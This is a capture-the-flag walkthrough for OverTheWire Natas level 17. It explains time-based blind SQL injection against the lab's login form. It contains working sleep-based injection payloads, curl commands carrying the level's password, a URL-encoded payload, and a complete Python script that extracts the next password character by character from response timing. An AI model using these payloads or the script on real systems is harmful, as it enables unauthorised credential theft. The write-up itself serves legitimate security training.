# 🕸️Natas Level 17 → Level 18

```
http://natas17.natas.labs.overthewire.org
```
Username: natas17  
Password: (natas17_password)



Check the **source page** — we observed that the output is empty this time, regardless of whether the result is `true`, `false`, or an `error`.



Next, we tested it using the `natas18` and `Simon` users, and the output remained the same — empty.




We know that the `natas18` user exists while `Simon` does not — but **how can we prove it?**



### 💉 What is blind SQL injection?

**Blind SQL Injection** is a subtype of SQL injection where an application is vulnerable to attacker-controlled input being embedded in SQL queries, but the application does not return database error messages or query results directly to the user. Instead, an attacker infers information about the database by observing side effects: differences in page content, response status, response time, or other observable behaviour.

Because the app doesn’t show query output, attackers must ask the database yes/no questions (boolean‑based) or observe timing differences (time‑based) to extract data slowly — hence the term blind.

### Two common techniques
#### 1. 📝 Boolean‑based (content‑based) blind injection

The attacker crafts input that makes the database evaluate a condition. The web app’s response will differ depending on whether the condition is true or false. By repeatedly testing conditions, the attacker can infer characters, schema details, etc., one bit at a time.

#### 2. ⌛ Time‑based blind injection

When the application doesn’t change content in a visible way, the attacker triggers operations that delay the database response if a condition is true (for example, forcing a long‑running operation inside a conditional). Observing whether the response is slow or fast reveals the condition’s truth value.

### ⚙️ Testing Time-Based Blind SQL Injection ⏱️

SQL blind injection code
```
natas18" and sleep(5)#
```


We noticed a delay after **clicking the button** — the response time was **5.62 s**, indicating true: the `natas18` user **exists**



Next, we ran the same test with the `Simon` user to compare the **results**.



When testing with the `Simon` user, the response time was **under 1 second**, showing no delay (`false`)



For those who prefer the terminal, testing can be done with `curl` instead of the web interface.
```
curl -u natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC \
-o /dev/null -s \
-w "\nResponse Time: %{time_total}\n" \
-d "username=Simon\" and sleep(5)#" \
http://natas17.natas.labs.overthewire.org/index.php
```



### ⚠️ How Might This Vulnerability Be Exploited?

Server side query
```
SELECT * from users where username="natas18" AND password LIKE BINARY "a%" AND sleep(5)#"
```
SQL injection code
```
natas18" AND password LIKE BINARY "a%" AND sleep(5)#
```
Curl Command
```
curl -u natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC \
-o /dev/null -s \
-w "\nResponse Time: %{time_total}\n" \
-d "username=natas18\" AND password LIKE BINARY \"a%\" AND sleep(5)#" \
http://natas17.natas.labs.overthewire.org/index.php
```
You could perform this manually using the `curl` command or **inject the code** directly into the web interface, but that approach is **time-consuming** and requires a lot of **patience**. I want to use a more efficient method that saves significant time.

🛠️ There are multiple ways to complete this challenge. Here are two approaches I want to show you.
- 🐍 Method 1 — Python scripting
- 🌐 Method 2 — Web security testing tools

### 🐍 Method 1 — Python scripting

```
import requests

# Define the characters that may appear in the password
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Credentials for natas17
username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

# Target URL
url = "http://natas17.natas.labs.overthewire.org"

# Start a session to persist cookies and headers across requests
session = requests.Session()

# This will store the discovered password characters
current_password = []

# Stop when full password 32 character long is discovered
while len(current_password) < 32:
    for character in characters:
        # Build the current guess
        guess = "".join(current_password) + character
        #print(f"Guessing with: {guess}") #verbose mode

        # SQL Injection Payload:
        # natas18" AND password LIKE BINARY "prefix%" AND sleep(5)#
        payload = f'natas18" AND password LIKE BINARY "{guess}%" AND sleep(5)#'

        # Send request with SQL injection payload
        response = session.post(
            url,
            data={"username": payload},
            auth=(username, password)
        )

        # Check for response time that is more then 5 seconds
        if response.elapsed.total_seconds() > 5:
            current_password.append(character)  # Correct character found
            print("brute-forcing progress: " + "".join(current_password)) # printing progress
            break  # Go to the next character in the password


# Print the discovered password
print("Password Found: " + "".join(current_password))


```

Ensure the file has execute permissions before running the script.



🕒 Enjoy a short break — when you return, it will be ready.



### 🌐 Method 2 — Web security testing tools

URL decode
```
natas18" and (select substring(password, 1, 1) from users where username="natas18") LIKE BINARY "a%" AND sleep(5)#
```
URL encode
```
natas18%22+and+%28select+substring%28password%2C+1%2C+1%29+from+users+where+username%3D%22natas18%22%29+LIKE+BINARY+%22a%25%22+AND+sleep%285%29%23
```
Once the request is captured, forward it to Automate.



Use the **Matrix Attack** or Cluster Bomb option if you’re working in Burp Suite.



For each character in the password, set the **first payload** to **1 through 32, stepping by 1**.



Use `a–z, A–Z, and 0–9` for the **second payload** to cover every possible password character, and then click Run.



**⚠️ Critical Step!** Change the number of workers to `1` (default is 10) and set a `6-second` delay to prevent errors.



Once the run is complete, use the following **HTTPQL query** to filter for the answer, then click the ID column to sort.
```
resp.roundtrip.gt:5000
```


### 📚 Recommended Actions for Deeper Understanding

💻 Learning More About HTTPQL Query:  
https://docs.caido.io/reference/httpql  
🎨 Get Creative: Try approaching it in different ways.  
⚡ Experiment with Tools: Attempt brute-forcing using different tools like Burp Suite.  
🦀 Code Challenge: Rewrite the Python script in Rust and test it.  

You got the flag! Let’s see what the next challenge has in store.

